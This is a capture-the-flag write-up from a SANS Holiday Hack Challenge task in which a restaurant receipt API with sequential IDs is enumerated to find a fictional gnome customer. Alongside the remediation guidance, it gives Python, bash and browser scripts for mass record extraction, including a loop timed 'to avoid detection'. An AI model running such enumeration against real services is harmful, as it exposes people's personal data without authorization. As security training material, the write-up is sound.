






# IDORable Bistro

**Difficulty:** ⭐⭐

---

## Challenge Overview

This challenge demonstrates an Insecure Direct Object Reference (IDOR) vulnerability in a restaurant receipt verification system. The objective is to exploit weak access controls to identify a gnome customer who ordered frozen sushi at Sasabune restaurant.

**Objective:** Enumerate receipt records through an unprotected API endpoint to identify the gnome's name based on suspicious ordering behavior.

---

## Challenge Description



*IDORable Bistro challenge briefing*

**Scenario:**

A security-conscious hacker has noticed suspicious activity at Sasabune restaurant - a gnome poorly disguised as a human ordered frozen sushi, an unusual request that caught staff attention. Based on previous experience finding IDOR vulnerabilities in restaurant payment systems, we're tasked with exploiting a similar weakness in the receipt verification system.

**Key Intelligence:**
- Gnome disguised as human customer
- Ordered frozen sushi (highly unusual)
- Receipt system may have IDOR vulnerability
- Need to identify the gnome's assumed name

---

## Application Reconnaissance

### Initial Discovery: Receipt Verification System

Accessing the challenge URL reveals a customer-facing receipt verification portal:



*Sasabune Receipt Verification System homepage*

**System Features:**
- QR code scanner interface for receipt lookup
- "Serving authentic Japanese cuisine to the Dosis neighborhood for over 10 years"
- Mobile-friendly design suggesting smartphone camera integration
- Instructions for 3-step QR code verification process

**User Workflow:**
1. Open phone camera application
2. Point camera at QR code on physical receipt
3. Tap notification to view receipt details

### Source Code Analysis

Examining the HTML source reveals development artifacts:
```html
<!-- For testing purposes only -->
<li><a href="/receipt/a1b2c3d4">Sample Receipt</a></li>
```

**Critical Finding:** Commented-out link exposes URL structure:
- Pattern: `/receipt/[8-character-code]`
- Sample code: `a1b2c3d4`
- Suggests alphanumeric receipt identifiers

### Sample Receipt Investigation

Accessing the test receipt `/receipt/a1b2c3d4`:


*Receipt #101 for customer Duke Dosis*

**Receipt Details:**
```
Sasabune
Serving the Dosis Neighborhood Since 2015

Receipt #101 | Table 1 | 2025-12-20
Customer: Duke Dosis

Item                        Price
────────────────────────────────
Omakase Experience          $150.00
Sake Flight (Premium)       $45.00

Total                       $195.00
Status: Paid

Note: Claims his pet rock is a certified sushi-grade 
emotional support animal. Demanded a tiny chair and 
a water bowl for it.
```

**Observations:**
- Receipt ID displayed: #101
- Customer notes contain humorous details
- Professional receipt formatting
- Payment status tracking

---

## Vulnerability Discovery

### JavaScript API Exposure

Inspecting browser DevTools Network tab and page source:



*Browser DevTools revealing the underlying API structure*

**Critical Code Section:**
```javascript
// Initial receipt ID
let receiptId = '101';

// Function to fetch and display receipt details
function fetchReceiptDetails(id) {
    // Add a small delay for dramatic effect
    setTimeout(function() {
        fetch(`/api/receipt?id=${id}`)
            .then(response => {
                if (!response.ok) {
                    throw new Error('Receipt not found');
                    return response.json();
                }
            })
            .then(data => {
                const receiptDiv = document.getElementById('check-details');
                // ... render receipt HTML ...
            })
    })
}
```

### The IDOR Vulnerability

**Architecture Analysis:**

The application has two distinct access methods:

**1. Web Interface (Public-Facing):**
- URL: `/receipt/[8-char-code]`
- Example: `/receipt/a1b2c3d4` → Receipt #101
- Requires 8-character alphanumeric code
- QR code generates these codes
- Appears to implement security through obscurity

**2. API Endpoint (Backend):**
- URL: `/api/receipt?id=[integer]`
- Example: `/api/receipt?id=101`
- Accepts simple sequential integers
- **No authentication required**
- **No authorization checks**
- Direct database ID exposure

**Security Flaw:**

While the web interface uses obfuscated 8-character codes (presumably mapped to receipt IDs), the underlying API accepts raw database IDs without any access control verification. This creates an IDOR vulnerability where:

1. Receipt IDs are **sequential integers** (predictable)
2. API accepts **any ID** without ownership verification
3. No rate limiting on enumeration attempts
4. Complete customer data exposure

---

## Exploitation Methodology

### Enumeration Strategy

Since receipt IDs are sequential integers and we know receipt #101 exists, systematic enumeration is viable:

**Approach:**
```python
import requests

base_url = "https://its-idorable.holidayhackchallenge.com/api/receipt"

for receipt_id in range(100, 200):
    response = requests.get(f"{base_url}?id={receipt_id}")
    
    if response.status_code == 200:
        data = response.json()
        print(f"Receipt #{receipt_id}: {data['customer']}")
        
        # Check for frozen sushi indicators
        for item in data.get('items', []):
            if 'frozen' in item['name'].lower():
                print(f"  ⚠️  FROZEN ITEM: {item['name']}")
    elif response.status_code == 404:
        # Receipt doesn't exist, continue
        pass
```

**Enumeration Boundaries:**
- Starting point: Receipt #100 (before known #101)
- Ending point: Receipt #200 (100 records sample)
- HTTP 200: Valid receipt
- HTTP 404: Receipt not found

### Target Identification

After enumerating receipts 100-200, receipt #139 exhibits suspicious characteristics:



*Receipt #139 rendered in browser showing Bartholomew Quibblefrost's order*



*Raw JSON API response for receipt #139*

**Receipt #139 Details:**
```json
{
  "customer": "Bartholomew Quibblefrost",
  "date": "2025-12-20",
  "id": 139,
  "items": [
    {
      "name": "Frozen Roll (waitress improvised: sorbet, a hint of dry ice)",
      "price": 19
    }
  ],
  "note": "Insisted on increasingly bizarre rolls and demanded one be served frozen. The waitress invented a 'Frozen Roll' on the spot with sorbet and a puff of theatrical smoke. He nodded solemnly and asked if we could make these in bulk.",
  "paid": true,
  "table": 14,
  "total": 19
}
```

### Evidence Analysis

**Gnome Indicators:**

| Factor | Evidence | Assessment |
|--------|----------|------------|
| **Name** | "Bartholomew Quibblefrost" | Stereotypical gnome naming convention (whimsical compound surname) |
| **Order** | "Frozen Roll" | Matches intelligence: frozen sushi |
| **Behavior** | "Insisted on increasingly bizarre rolls" | Abnormal customer behavior |
| **Specific Request** | "Demanded one be served frozen" | Exact match to challenge description |
| **Reaction** | "Nodded solemnly" | Non-human mannerisms |
| **Bulk Inquiry** | "Asked if we could make these in bulk" | Suspicious procurement interest |
| **Improvisation** | Waitress invented item (sorbet, dry ice) | Item doesn't exist on normal menu |

**Conclusion:** All evidence points to Bartholomew Quibblefrost being the disguised gnome customer.

---

## Physical Receipt Analysis

### QR Code Investigation

Physical receipts found in-game contain QR codes:



*Receipt #103 showing QR code for verification*

**Receipt #103 Data:**
```
SASABUNE
LOCATION: DOSIS

#103          Table  3

1 Cali Roll      12.00
1 Ramune Soda     4.50
1 Pocky Sticks    3.00

Sub Total:   19.50
Tax:          0.00
Local:        0.00

TOTAL: 19.50

CONTACTLESS PAYMENT
Scan QR Code to Pay
[QR Code Image]
```

### URL Pattern Reverse Engineering Attempt

**Known Mappings:**
- Receipt #101 → `/receipt/a1b2c3d4`
- Receipt #103 → `/receipt/i9j0k1l2` (discovered through QR decode)

**Pattern Analysis:**

Attempting to identify algorithmic relationship between receipt ID and 8-character code:
```
101 → a1b2c3d4
103 → i9j0k1l2

Offset: +2 IDs
Code progression: a→i (8 positions)
                  1→9 (8 positions)
                  b→j (8 positions)
                  2→0 (-2 or +8 mod 10)
```

**Hypothesis:** Each receipt ID increment may correspond to character rotation

**Calculated Code for Receipt #139:**
```
ID 101 → 103 = +2 → pattern shift of 8 positions per character
ID 103 → 139 = +36 → 18 full cycles (36/2)
18 cycles × 8 positions = 144 positions
144 mod 26 = 14 positions

Starting: i9j0k1l2
Result:   w3x4y5z6 (predicted)
```

**Validation Test:**
```bash
curl https://its-idorable.holidayhackchallenge.com/receipt/w3x4y5z6
# Result: HTTP 404 - Pattern hypothesis incorrect
```

**Conclusion:** The 8-character codes are not purely algorithmic. They may be:
- Cryptographic hashes (truncated)
- Database UUIDs (shortened)
- Random values mapped in lookup table
- Salted hash with unknown key

**Strategic Pivot:** Rather than reverse-engineer the obfuscated codes, exploit the direct API access with sequential IDs.

---

## Answer

**Gnome's Name:** `Bartholomew Quibblefrost`

**Receipt ID:** 139  
**Order:** Frozen Roll (improvised: sorbet and dry ice)  
**Behavior:** Demanded frozen sushi, inquired about bulk orders

---

## Technical Analysis

### IDOR Vulnerability Mechanics

**Definition:**

Insecure Direct Object Reference (IDOR) occurs when an application provides direct access to objects based on user-supplied input without proper authorization verification. Attackers can manipulate references to access unauthorized data.

**OWASP Classification:**
- Category: Broken Access Control
- CWE-639: Authorization Bypass Through User-Controlled Key
- OWASP Top 10 2021: A01 - Broken Access Control

### Vulnerability Root Cause

**1. Direct Database ID Exposure:**
```javascript
fetch(`/api/receipt?id=${id}`)  // Direct integer ID
```
The API accepts database primary keys directly rather than using indirect references (UUIDs, tokens, or session-specific identifiers).

**2. Missing Authorization Checks:**
```python
# Vulnerable pseudo-code
def get_receipt(receipt_id):
    receipt = database.query("SELECT * FROM receipts WHERE id = ?", receipt_id)
    return receipt  # ❌ No ownership verification
```

**Proper Implementation:**
```python
# Secure pseudo-code
def get_receipt(receipt_id, user_session):
    receipt = database.query(
        "SELECT * FROM receipts WHERE id = ? AND customer_id = ?",
        receipt_id,
        user_session.customer_id
    )
    if not receipt:
        return 403  # Forbidden - not your receipt
    return receipt
```

**3. Predictable Identifiers:**
- Sequential integers: 100, 101, 102, 103...
- Trivial to enumerate
- No randomness or unpredictability

### Real-World Impact Assessment

**Data Exposure:**
- Customer full names
- Order history and preferences
- Payment status
- Table numbers (physical location tracking)
- Timestamp data (behavioral patterns)
- Server notes (potentially sensitive observations)

**Compliance Violations:**

| Regulation | Violation | Penalty Exposure |
|------------|-----------|------------------|
| **GDPR** (EU) | Unauthorized PII access | Up to €20M or 4% annual revenue |
| **CCPA** (California) | Consumer privacy breach | $2,500-$7,500 per violation |
| **PCI DSS** | Cardholder data exposure risk | Fines, card processing suspension |

**Business Risks:**
- Competitive intelligence gathering (menu popularity, pricing)
- Customer poaching
- Reputation damage
- Legal liability

### Attack Scalability

**Manual Enumeration:**
```bash
# Test 10 receipts manually
for i in {100..110}; do
  curl "https://its-idorable.holidayhackchallenge.com/api/receipt?id=$i"
done
```

**Automated Mass Extraction:**
```python
import requests
import concurrent.futures

def fetch_receipt(receipt_id):
    response = requests.get(f"{base_url}?id={receipt_id}")
    return response.json() if response.status_code == 200 else None

# Concurrent requests - 1000 receipts in seconds
with concurrent.futures.ThreadPoolExecutor(max_workers=20) as executor:
    futures = [executor.submit(fetch_receipt, i) for i in range(1, 1000)]
    receipts = [f.result() for f in futures if f.result()]

# Result: Complete customer database extracted
```

**Without rate limiting:** Entire database can be exfiltrated rapidly.

---

## Security Remediation

### Immediate Fixes

**1. Implement Authorization Checks:**
```javascript
app.get('/api/receipt', async (req, res) => {
    const receiptId = req.query.id;
    const userId = req.session.userId;  // From authenticated session
    
    const receipt = await db.query(
        'SELECT * FROM receipts WHERE id = ? AND customer_id = ?',
        [receiptId, userId]
    );
    
    if (!receipt) {
        return res.status(403).json({ error: 'Access denied' });
    }
    
    return res.json(receipt);
});
```

**2. Use Non-Sequential Identifiers:**
```javascript
// Replace sequential IDs with UUIDs
const receiptId = crypto.randomUUID();  // e.g., "550e8400-e29b-41d4-a716-446655440000"

// Or cryptographically random tokens
const receiptToken = crypto.randomBytes(16).toString('hex');  // 32-char hex string
```

**3. Implement Rate Limiting:**
```javascript
const rateLimit = require('express-rate-limit');

const apiLimiter = rateLimit({
    windowMs: 15 * 60 * 1000,  // 15 minutes
    max: 100,  // Limit each IP to 100 requests per window
    message: 'Too many requests, please try again later'
});

app.use('/api/', apiLimiter);
```

### Long-Term Security Architecture

**1. Indirect Object References:**
```javascript
// Session-specific receipt mapping
session.receiptTokens = {
    'abc123': 139,  // Token maps to actual ID
    'def456': 142
};

// API accepts token, not ID
app.get('/api/receipt/:token', (req, res) => {
    const actualId = req.session.receiptTokens[req.params.token];
    if (!actualId) return res.status(404).json({ error: 'Not found' });
    
    // Fetch receipt by internal ID
});
```

**2. Capability-Based Security:**
```javascript
// Receipt access requires signed capability token
const capability = {
    receiptId: 139,
    userId: 'user_abc',
    expiration: Date.now() + 3600000,  // 1 hour
    signature: hmac('secret_key', 'receiptId=139&userId=user_abc')
};

// Client presents capability token
// Server verifies signature before granting access
```

**3. Audit Logging:**
```javascript
// Log all receipt access attempts
await db.insert('audit_log', {
    timestamp: new Date(),
    userId: req.session.userId,
    action: 'RECEIPT_ACCESS',
    receiptId: receiptId,
    ipAddress: req.ip,
    authorized: true
});

// Alert on suspicious patterns
if (accessAttemptsLastMinute > 10) {
    alertSecurityTeam('Possible enumeration attack');
}
```

---

## Key Takeaways

### IDOR Detection Techniques

**1. Parameter Manipulation:**
- Modify ID values in URLs and API calls
- Test sequential increments/decrements
- Try other users' known identifiers

**2. Source Code Analysis:**
- Examine JavaScript for API endpoints
- Review network traffic in DevTools
- Check for commented-out test links

**3. Pattern Recognition:**
- Identify predictable ID schemes
- Map relationships between IDs and access codes
- Test boundary conditions

### Developer Security Lessons

**1. Never Trust Client Input:**
- All user-supplied identifiers require validation
- Verify ownership before data access
- Implement server-side authorization

**2. Defense in Depth:**
- Multiple security layers (authentication + authorization + rate limiting)
- Assume each layer can fail independently
- Monitor and alert on suspicious patterns

**3. Secure by Default:**
- APIs should deny access unless explicitly authorized
- Use random/cryptographic identifiers
- Implement least privilege access

**4. Security != Obscurity:**
- 8-character codes provide obscurity, not security
- Obfuscation delays attacks but doesn't prevent them
- Proper authorization is non-negotiable

---

## Tools & Techniques Reference

### Manual Testing
```bash
# Basic API enumeration
for i in {100..200}; do
    curl -s "https://target/api/receipt?id=$i" | jq '.customer'
done

# With timing to avoid detection
for i in {100..200}; do
    curl -s "https://target/api/receipt?id=$i"
    sleep 2  # 2-second delay between requests
done
```

### Python Automation
```python
import requests
import json

base_url = "https://its-idorable.holidayhackchallenge.com/api/receipt"
results = []

for receipt_id in range(100, 200):
    try:
        response = requests.get(f"{base_url}?id={receipt_id}", timeout=5)
        if response.status_code == 200:
            data = response.json()
            results.append(data)
            
            # Flag suspicious orders
            for item in data.get('items', []):
                if 'frozen' in item['name'].lower():
                    print(f"🎯 Receipt #{receipt_id}: {data['customer']}")
                    print(f"   Item: {item['name']}")
    except requests.exceptions.RequestException:
        continue

# Save results
with open('receipts.json', 'w') as f:
    json.dump(results, f, indent=2)
```

### Browser Developer Console
```javascript
// Enumerate receipts directly in browser
async function enumerateReceipts(start, end) {
    const receipts = [];
    for (let id = start; id <= end; id++) {
        try {
            const response = await fetch(`/api/receipt?id=${id}`);
            if (response.ok) {
                const data = await response.json();
                receipts.push(data);
                console.log(`Receipt #${id}: ${data.customer}`);
            }
        } catch (error) {
            console.error(`Error fetching receipt ${id}`);
        }
        // Small delay to avoid overwhelming server
        await new Promise(resolve => setTimeout(resolve, 100));
    }
    return receipts;
}

// Execute enumeration
const results = await enumerateReceipts(100, 200);
```

---

## Challenge Complete! 🎯

**Status:** ✅ Completed

**Vulnerability:** Insecure Direct Object Reference (IDOR)  
**Attack Vector:** Unauthenticated API endpoint with sequential IDs  
**Gnome Identified:** Bartholomew Quibblefrost  
**Receipt ID:** 139  
**Evidence:** Frozen sushi order matching intelligence description  

---

## References

- [OWASP Top 10 - Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [PortSwigger: IDOR Vulnerabilities](https://portswigger.net/web-security/access-control/idor)
- [OWASP Testing Guide: IDOR](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)

---

*Writeup by SFC David P. Collette*  
*Regional Cyber Center - Korea (RCC-K)*  
*SANS Holiday Hack Challenge 2025*
